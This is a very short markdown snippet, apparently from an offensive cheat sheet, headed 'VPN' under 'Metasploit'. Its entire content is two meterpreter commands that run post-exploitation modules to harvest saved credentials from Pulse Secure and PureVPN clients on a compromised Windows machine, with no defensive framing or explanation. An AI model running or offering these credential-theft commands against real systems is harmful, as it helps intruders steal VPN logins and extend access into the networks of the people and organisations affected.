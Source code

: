 # VPN

## Metasploit

```
meterpreter > run post/windows/gather/credentials/pulse_secure
```

```
meterpreter > run post/windows/gather/credentials/purevpn_cred_collector
```